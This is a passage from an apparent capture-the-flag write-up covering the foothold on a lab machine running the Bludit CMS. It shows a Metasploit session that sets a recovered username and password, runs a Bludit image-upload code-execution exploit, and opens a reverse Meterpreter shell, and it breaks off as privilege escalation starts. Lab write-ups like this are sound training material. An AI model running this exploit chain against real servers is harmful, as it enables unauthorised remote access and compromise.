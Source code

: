 We wait for a bit until the exploit finishes. After that, we should now have fergus's password

# **Foothold**

Let's fire up Metasploit and search for bludit.

```terminal
msf6 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability

```

Metasploit has a upload images exec exploit, let's use that one, give it the required parameters, and run it.

```terminal
msf6 exploit(linux/http/bludit_upload_images_exec) > set bluditpass RolandDeschain
bluditpass => RolandDeschain
msf6 exploit(linux/http/bludit_upload_images_exec) > set bludituser fergus
bludituser => fergus
msf6 exploit(linux/http/bludit_upload_images_exec) > set rhosts 10.10.10.191
rhosts => 10.10.10.191
msf6 exploit(linux/http/bludit_upload_images_exec) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.17.90:4444
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading wlffGPKpej.png...
[*] Uploading .htaccess...
[*] Executing wlffGPKpej.png...
[*] Sending stage (39282 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (10.10.17.90:4444 -> 10.10.10.191:32892 ) at 2022-02-01 13:09:03 -0500

meterpreter >
```

Great, we have now access to the machine.

# **Privilege Escalation**

Let's first drop a shell.
